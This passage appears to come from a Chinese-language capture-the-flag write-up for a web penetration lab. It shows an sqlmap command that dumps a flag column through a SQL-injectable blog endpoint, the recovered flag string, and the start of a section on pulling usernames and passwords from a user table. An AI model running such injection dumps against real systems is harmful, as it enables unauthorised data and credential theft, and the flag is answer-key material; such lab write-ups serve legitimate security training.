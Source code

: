 构造

> sqlmap -u url//api/removeBlog.php?id=3 -D ctfer -T flag -C flag --dump

获取字段**flag**中的内容，得到

![web2-flag](../assets/web2-flag.png)

flag：

> flag2{83fc5b4e-d70a-be97-0ec2-6cdde9eb1b30}

### web综合渗透靶场flag3

通过sqlmap在ctfer下的user表中获取到username和password

![web-user-tab](../assets/web-user-tab.png)

![web-user-item](../assets/web-user-item.png)
